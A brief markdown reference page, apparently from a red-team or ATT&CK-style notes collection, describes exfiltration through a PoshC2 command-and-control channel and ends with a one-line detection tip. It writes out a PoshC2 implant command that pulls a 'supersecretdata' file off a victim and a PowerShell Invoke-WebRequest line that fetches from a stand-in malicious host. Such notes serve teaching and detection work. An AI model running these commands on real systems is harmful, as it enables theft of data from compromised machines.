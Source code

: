 # [Exfiltration Over Command and Control Channel]()

## Exploit Description: 
Download command in PoshC2


## Exploit syntax:


* Download file directly from implant
```powershell
download-file <file path> 
Example: download-file 'C:\\Users\\Public\\supersecretdata.txt'
```

* Download file from hosted malicious site
```powershell
Invoke-WebRequest -Uri "http://www.Gewgle.com" -OutFile "C:\path\file"
```


## Detection Technique:
* Investigate powershell with the “download” command. Investigate increased data transfer external to the network during a network connection.

